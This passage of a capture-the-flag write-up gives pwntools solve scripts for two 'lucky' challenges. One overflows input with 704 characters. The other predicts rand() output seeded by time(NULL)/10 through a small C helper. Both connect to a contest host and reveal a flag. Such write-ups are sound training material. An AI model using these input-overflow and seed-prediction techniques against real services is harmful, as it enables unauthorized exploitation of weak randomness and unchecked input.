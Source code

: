 ```python
host = '167.99.143.206'
port = 65031  

r = remote(host, port)
f = open('see', 'r')
x = f.read().split('\n')[:-1]
r.recvuntil('?')
r.sendline('a'*704)
for i in range(100):
    r.recvuntil(']')
    r.sendline(str(x[i]))
    print (i)
r.interactive()
```
flag : `DCTF{8adadb46b599a58344559e009bc167da7f0e65e64167c27d3192e8b6df073eaa}`

### Even more lucky?
This time the seed fed into `srand()` is `time(NULL) / 10`. No need to be too lucky.
I first compile `lucky2.c` into a.out, then call it by `lucky2.py`
```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv){
	int seed = atoi(argv[1]);
	srand(seed);
	for(int i = 0; i < 100; i++){
		printf("%d\n", rand());
	}
}
```
```python
#!/usr/bin/python
from pwn import *
import time
import os
host = '167.99.143.206'
port = 65032
r = remote(host, port)
x = time.time()
r.recvuntil('?')
r.sendline('a')
os.system('./a.out ' + str(x // 10) + ' > see')
f = open('see', 'r')
x = f.read().split('\n')[:-1]
for i in range(100):
    r.recvuntil(']')
    r.sendline(str(x[i]))
    print (i)
r.interactive()
```
